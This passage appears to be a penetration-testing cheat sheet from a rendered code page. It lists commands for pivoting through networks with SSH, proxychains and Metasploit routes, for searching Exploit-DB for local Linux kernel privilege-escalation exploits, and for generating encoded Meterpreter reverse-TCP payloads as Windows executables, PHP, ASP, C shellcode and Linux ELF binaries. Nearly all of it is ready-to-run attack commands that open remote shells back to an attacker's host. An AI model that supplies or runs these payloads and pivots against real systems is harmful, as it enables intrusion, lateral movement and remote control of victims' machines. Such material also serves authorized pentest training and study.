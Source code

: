Add socks4 127.0.0.1 1080 in /etc/proxychains.conf

proxychains commands target

**Pivoting to One Network to Another:**

ssh -D 127.0.0.1:1080 -p 22 user1@IP1

Add socks4 127.0.0.1 1080 in /etc/proxychains.conf

proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2

Add socks4 127.0.0.1 1081 in /etc/proxychains.conf

proxychains commands target

**Pivoting Using metasploit:**

route add 10.1.1.0 255.255.255.0 1

route add 10.2.2.0 255.255.255.0 1

use auxiliary/server/socks4a

run

proxychains msfcli windows/\* PAYLOAD=windows/meterpreter/reverse\_tcp LHOST=IP LPORT=443 RHOST=IP E

**Exploit-DB search using CSV File:**

searchsploit-rb –update

searchsploit-rb -t webapps -s WEBAPP

searchsploit-rb –search=”Linux Kernel”

searchsploit-rb -a “author name” -s “exploit name”

searchsploit-rb -t remote -s “exploit name”

searchsploit-rb -p linux -t local -s “exploit name”

**For Privilege Escalation Exploit search:**

cat files.csv \| grep -i linux \| grep -i kernel \| grep -i local \| grep -v dos \| uniq \| grep 2.6 \| egrep “&lt;\|&lt;=” \| sort -k3

**Metasploit Payloads:**

msfpayload windows/meterpreter/reverse\_tcp LHOST=10.10.10.10 X &gt; system.exe

msfpayload php/meterpreter/reverse\_tcp LHOST=10.10.10.10 LPORT=443 R &gt; exploit.php

msfpayload windows/meterpreter/reverse\_tcp LHOST=10.10.10.10 LPORT=443 R \| msfencode -t asp -o file.asp

msfpayload windows/meterpreter/reverse\_tcp LHOST=X.X.X.X LPORT=443 R \| msfencode -e x86/shikata\_ga\_nai -b “\x00″ -t c

Create a Linux Reverse Meterpreter Binary

msfpayload linux/x86/meterpreter/reverse\_tcp LHOST=&lt;Your IP Address&gt; LPORT=&lt;Your Port to Connect On&gt; R \| msfencode -t elf -o shell
